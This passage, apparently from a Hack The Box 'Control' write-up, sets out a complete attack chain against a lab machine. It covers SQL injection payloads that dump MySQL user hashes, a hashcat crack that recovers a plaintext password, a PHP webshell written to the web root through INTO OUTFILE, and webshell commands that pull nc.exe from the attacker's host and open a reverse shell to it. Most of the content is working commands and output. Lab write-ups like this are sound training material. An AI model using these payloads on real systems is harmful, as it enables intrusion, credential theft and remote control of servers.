 To list all the Databases we can user `Information_schema.schemata`.
```
productName=Asus' UNION SELECT 1,SCHEMA_NAME,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
This query gives us three `DB` names: `Information_schema`, `mysql`, `warehouse`. Since we're intereseted in `user credential` we can grab the username and password from `mysql.user` table. Using following query.
```
  productName=test' union select 1,(SELECT group_concat(User,":",password SEPARATOR '\n') from mysql.user),3,4,5,6-- -
```
![](/assets/images/htb-writeup-control/user.png)

We got the `username` and `password` hashes from the table. 
```
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
manager:*CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
hector:*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
```
### Crack MySQL Passwords
`Hashcat` helps us to crack `hector` password hash. Now, we've the credentials for hector user `hector : l33th4x0rhector`.
```
$ cat hector.hash 
0E178792E8FC304A2E3133D535D38CAF1DA3CD9D

$ hashcat  -m 300 hector.hash /usr/share/wordlists/rockyou.txt --force
<SNIP>
0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
<SNIP>
```

## FootHold
Using `Into Outfile` we can upload a `php` webshell to web root with the help of SQLi.
```
productName=Asus'+union+select+1,'<?php system($_REQUEST["cmd"]);?>',3,4,5,6 into outfile 'C:\\inetpub\\wwwroot\\mah1ndra.php'--+-
```
After requesting the URL, We can use `cmd` paramter to execute commands on the server.
```
$ curl -X POST http://10.10.10.167/mah1ndra.php --data-urlencode cmd=whoami
1       nt authority\iusr
        3       4       5       6
```
To gain a interactive `reverse shell` we'll upload `nc.exe` on to the server and make a reverse shell to our machine with help of it.
```
http://10.10.10.167/mah1ndra.php?cmd=powershell -c "iwr -uri http://10.10.15.251/nc.exe -outfile C:\temp\nc.exe"
``` 
```
http://10.10.10.167/mah1ndra.php?cmd=C:\temp\nc.exe 10.10.15.251 443 -e powershell
```
